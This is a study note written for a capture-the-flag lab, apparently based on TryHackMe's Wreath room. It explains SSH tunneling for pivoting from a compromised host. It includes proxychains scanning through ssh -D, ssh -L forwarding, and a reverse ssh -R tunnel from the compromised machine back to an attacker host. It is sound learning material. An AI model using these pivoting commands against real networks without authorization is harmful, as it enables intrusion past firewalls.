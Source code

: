 [Home](../index.md)

# SSH Tunneling By Use Case

**Credit:** Most of this has been paraphrased from the [Wreath network on TryHackMe](https://tryhackme.com/room/wreath).  I wrote this article to reinforce my own knowlege as I was struggling with this subject.  The room is created by [Muirlandoracle](https://muirlandoracle.co.uk).

SSH Tunneling can be used to pivot from a partially or completely compromised machine to the rest of the network.  This is especially useful when the rest of the network is either firewalled or not routable from the attacker's standpoint.  This guide is organized by situation.

### For the purposes of this guide:

The IP of the attacking machine will always be listed as `77.77.77.77`

The IP of the compromised machine will always be listed as `100.100.100.111`

The IP of the target machine will always be listed as `100.100.100.222`

---
## We have compromised `100.100.100.111`, and wish to use it to enumerate additional services on `100.100.100.222`, which we cannot enumerate from `77.77.77.77`.

It is assumed that we have probably already run host discovery from the compromised machine and have discovered `100.100.100.222`, but do not have sufficient tools to enumerate `100.100.100.222` further.

First, we set up a tunnel

```
$ ssh -D 9999 user@100.100.100.111 -N
```

`-D` sets up a proxy on our local machine.  Now any time we direct traffic to `77.77.77.77:9999` (or `127.0.0.1:9999` if we're running commands from that machine), it will tunnel over SSH, exiting the tunnel on `100.100.100.111` inside of the desired network.  If we do not use `-N`, it will expect a command to run.  You can also use `-f` to send this to the background if you wish to keep using the terminal instance you run this in (I usually use `tmux` so I like to keep things running in their own terminal).

Now all we need to do is use proxychains to direct traffic appropriately and we can run programs such as `nmap` against the target network.  Example proxychains configuration below.

```
[ProxyList]
socks4 127.0.0.1 9999
```

Then an example command

```
$ proxychains nmap -p- 100.100.100.222
```

Note that port scans can be extremely slow through proxychains.  Finding a way to run the scan directly from `100.100.100.111` may be a better solution (static binary?).

---
## We have compromised `100.100.100.111`, and know of a specific service on `100.100.100.222` that we cannot access from `77.77.77.77`.

Since we know exactly what service we want to hit, we don't have to use proxychains for this.  We set up a tunnel:

```
$ ssh -L 9999:100.100.100.222:80 user@100.100.100.111 -N
```

`-L` opens a local port (on `77.77.77.77` or `127.0.0.1`) that we can use to access port 80 (or whatever you want) on `100.100.100.222`.  The traffic is tunneled through SSH, exits on `100.100.100.111`, and continues to port 80 on `100.100.100.222`.

After running the SSH command, here are some examples of interacting with port 80 on `100.100.100.222`:

```
$ nmap -sC -p 9999 127.0.0.1

$ curl http://127.0.0.1:9999/
```

The point is that we interact with port 9999 on our local machine to go through the tunnel.

---
## You get a shell on `100.100.100.111` but do not have full SSH access to create a tunnel

In this case we cannot create a tunnel as before, because we have no SSH access to the machine.  What we CAN do is create a tunnel back to our attacking machine and forward the port that way.

First, on the attacking machine, we create a new set of SSH keys

```
$ ssh-keygen
```

Next, we need to add our generated .pub file to `~/.ssh/authorized_keys`

**IF** we want to make sure the operators of `100.100.100.111` won't be able to SSH back to our attacking machine, we need to paste the contents of .pub with the below information prepended:

```
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty <YOUR_PUB_CONTENTS_PASTED_HERE>
```

Now we make sure SSH is running on `77.77.77.77`

```
$ sudo systemctl status ssh

... (if needed) ...

$ sudo systemctl start ssh
```

Now, transfer your private key file to `100.100.100.111`

Then from our shell on `100.100.100.111`:

```
ssh -R 9999:100.100.100.222:80 user@77.77.77.77 -i NAME_OF_KEYFILE -N
```

`-R` works like `-L`, except it attempts to open the port on the remote server (our attacking machine, `77.77.77.77`)

You can access the port the same way as we did with `-L`

```
$ nmap -sC -p 9999 127.0.0.1

$ curl http://127.0.0.1:9999/
```